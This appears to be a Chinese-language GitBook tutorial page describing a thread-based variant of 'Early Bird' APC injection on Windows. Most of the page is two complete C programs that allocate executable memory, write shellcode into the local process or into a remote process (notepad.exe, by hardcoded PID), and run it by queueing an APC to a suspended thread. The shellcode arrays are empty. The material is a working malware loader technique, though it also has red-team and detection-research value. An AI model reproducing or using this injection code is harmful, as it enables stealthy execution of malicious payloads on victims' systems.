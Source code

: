 # Early Bird & CreateThread or CreateRemoteThread

在前面的[Early Bird](early-bird.md)篇我们知道，在恢复挂起线程时程序会调用NtTestAlert函数对APC队列进行处理，试想，我们在进程内创建一个挂起的线程，然后往这个线程内插入用户apc，随后恢复进程，是不是同样可以在进程执行入口点前接管进程?

## 实现思路

1. 创建一个挂起的线程
2. 写入shellcode
3. 插入apc队列
4. 恢复线程

## 代码实现

由于进程会在入口点执行前被接管，所以我们其实并不用指向一个真正有效的入口点。

* 本进程代码执行:

```text
#include<Windows.h>
#include<stdio.h>

char shellcode[] = 
"";

int main() {

	HANDLE hThread = NULL;
	HANDLE hProcess = 0;
	DWORD ProcessId = 0;
	LPVOID AllocAddr = NULL;


	hProcess = GetCurrentProcess();
	AllocAddr = VirtualAllocEx(hProcess, 0, sizeof(shellcode) + 1, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(hProcess, AllocAddr, shellcode, sizeof(shellcode) + 1, 0);


	hThread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)0xfff, 0, CREATE_SUSPENDED, NULL);

	QueueUserAPC((PAPCFUNC)AllocAddr, hThread, 0);
	ResumeThread(hThread);
	WaitForSingleObject(hThread,INFINITE);
	CloseHandle(hProcess);
	CloseHandle(hThread);
	return 0;

}
```

* 远程注入:

```text
#include<Windows.h>
#include<stdio.h>

char shellcode[] = 
"";

int main() {

	HANDLE hThread = NULL;
	HANDLE hProcess = 0;
	DWORD ProcessId = 0;
	LPVOID AllocAddr = NULL;


	//hProcess = GetCurrentProcess();
	hProcess = OpenProcess(PROCESS_ALL_ACCESS, NULL, 12524);//notepad.exe
	AllocAddr = VirtualAllocEx(hProcess, 0, sizeof(shellcode) + 1, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(hProcess, AllocAddr, shellcode, sizeof(shellcode) + 1, 0);


	hThread = CreateRemoteThread(hProcess,0, 0, (LPTHREAD_START_ROUTINE)0xfff, 0, CREATE_SUSPENDED, NULL);

	QueueUserAPC((PAPCFUNC)AllocAddr, hThread, 0);
	ResumeThread(hThread);
	//WaitForSingleObject(hThread,INFINITE);
	CloseHandle(hProcess);
	CloseHandle(hThread);
	return 0;

}
```

![](../.gitbook/assets/image%20%2822%29.png)

